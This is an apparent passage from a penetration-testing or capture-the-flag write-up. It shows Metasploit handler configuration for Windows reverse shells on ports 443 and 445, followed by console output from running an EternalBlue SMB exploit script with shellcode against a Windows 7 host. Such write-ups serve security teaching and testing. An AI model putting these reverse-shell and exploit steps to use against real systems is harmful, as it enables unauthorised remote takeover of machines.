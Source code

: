     MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
    MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
            https://metasploit.com


           =[ metasploit v5.0.6-dev                           ]
    + -- --=[ 1857 exploits - 1055 auxiliary - 327 post       ]
    + -- --=[ 546 payloads - 44 encoders - 10 nops            ]
    + -- --=[ 2 evasion                                       ]

    [*] Processing config.rc for ERB directives.
    resource (config.rc)> use exploit/multi/handler
    resource (config.rc)> set PAYLOAD windows/x64/shell_reverse_tcp
    PAYLOAD => windows/x64/shell_reverse_tcp
    resource (config.rc)> set LHOST 10.254.1.47
    LHOST => 10.254.1.47
    resource (config.rc)> set LPORT 443
    LPORT => 443
    resource (config.rc)> set ExitOnSession false
    ExitOnSession => false
    resource (config.rc)> set EXITFUNC thread
    EXITFUNC => thread
    resource (config.rc)> exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.
    resource (config.rc)> set PAYLOAD windows/shell/reverse_tcp
    [*] Started reverse TCP handler on 10.254.1.47:443
    PAYLOAD => windows/shell/reverse_tcp
    resource (config.rc)> set LPORT 445
    LPORT => 445
    resource (config.rc)> exploit -j
    [*] Exploit running as background job 1.
    [*] Exploit completed, but no session was created.
    [*] Starting persistent handler(s)...

    [*] Started reverse TCP handler on 10.254.1.47:445
    msf5 exploit(multi/handler) > 



Now I just run the exploit from a different window. It worked on the
second run:



    root@kali# python eternalblue_exploit7.py 10.1.1.13 shellcode/sc_all.bin
    shellcode size: 2203
    numGroomConn: 13
    Target OS: Windows 7 Professional 7601 Service Pack 1
    SMB1 session setup allocate nonpaged pool success
    SMB1 session setup allocate nonpaged pool success
    good response status: INVALID_PARAMETER
    done
    root@kali# python eternalblue_exploit7.py 10.1.1.13 shellcode/sc_all.bin
    shellcode size: 2203
    numGroomConn: 13
    Target OS: Windows 7 Professional 7601 Service Pack 1
    SMB1 session setup allocate nonpaged pool success
    SMB1 session setup allocate nonpaged pool success
    good response status: INVALID_PARAMETER
    done
